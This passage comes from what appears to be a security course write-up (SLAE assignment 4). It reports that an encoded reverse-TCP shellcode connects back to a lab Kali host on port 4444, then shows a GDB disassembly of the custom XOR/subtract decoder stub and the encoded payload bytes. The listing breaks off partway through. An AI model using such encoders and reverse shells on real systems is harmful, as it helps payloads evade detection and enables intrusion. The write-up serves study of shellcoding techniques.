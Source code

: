 ![test](https://bohansec.com/assets/assignmet4-3.png "test")
![test](https://bohansec.com/assets/assignmet4-4.png "test")

The shellcode is successfully executed and the reverse TCP shell is connected to my kali's IP 192.168.200.136 on port 4444.

### Step5 - Verify the decoding process in GDB

{% highlight js %}
kali@kali:~/Desktop/SLAE-Assignments/assignment4$ gdb -q ./shellcode
Reading symbols from ./shellcode...
(No debugging symbols found in ./shellcode)
(gdb) break *&code
Breakpoint 1 at 0x4040
(gdb) set disassembly-flavor intel
(gdb) run
Starting program: /home/kali/Desktop/SLAE-Assignments/assignment4/shellcode 
Shellcode Length:  228

Breakpoint 1, 0x00404040 in code ()
(gdb) disassemble 
Dump of assembler code for function code:
=> 0x00404040 <+0>:     jmp    0x40406b <code+43>
   0x00404042 <+2>:     pop    esi
   0x00404043 <+3>:     sub    BYTE PTR [esi],0x5
   0x00404046 <+6>:     xor    BYTE PTR [esi],0xbb
   0x00404049 <+9>:     lea    edi,[esi+0x1]
   0x0040404c <+12>:    xor    eax,eax
   0x0040404e <+14>:    mov    al,0x1
   0x00404050 <+16>:    xor    ebx,ebx
   0x00404052 <+18>:    mov    bl,BYTE PTR [esi+eax*1]
   0x00404055 <+21>:    xor    bl,0xcc
   0x00404058 <+24>:    jne    0x404070 <code+48>
   0x0040405a <+26>:    mov    bl,BYTE PTR [esi+eax*1+0x1]
   0x0040405e <+30>:    mov    BYTE PTR [edi],bl
   0x00404060 <+32>:    sub    BYTE PTR [edi],0x5
   0x00404063 <+35>:    xor    BYTE PTR [edi],0xbb
   0x00404066 <+38>:    inc    edi
   0x00404067 <+39>:    add    al,0x2
   0x00404069 <+41>:    jmp    0x404052 <code+18>
   0x0040406b <+43>:    call   0x404042 <code+2>
   0x00404070 <+48>:    (bad)  
   0x00404071 <+49>:    int3   
   0x00404072 <+50>:    or     ah,0x8f
   0x00404075 <+53>:    int3   
   0x00404076 <+54>:    gs int3 
   0x00404078 <+56>:    (bad)  
   0x00404079 <+57>:    int3   
   0x0040407a <+58>:    ja     0x404048 <code+8>
   0x0040407c <+60>:    (bad)  
   0x0040407d <+61>:    int3   
   0x0040407e <+62>:    outs   dx,BYTE PTR ds:[esi]
   0x0040407f <+63>:    int3   
   0x00404080 <+64>:    (bad)  
   0x00404081 <+65>:    int3   
   0x00404082 <+66>:    push   edx
--Type <RET> for more, q to quit, c to continue without paging--
   0x00404083 <+67>:    int3   
   0x00404084 <+68>:    (bad)  
   0x00404085 <+69>:    int3   
   0x00404086 <+70>:    dec    ecx
   0x00404087 <+71>:    int3   
   0x00404088 <+72>:    loop   0x404056 <code+22>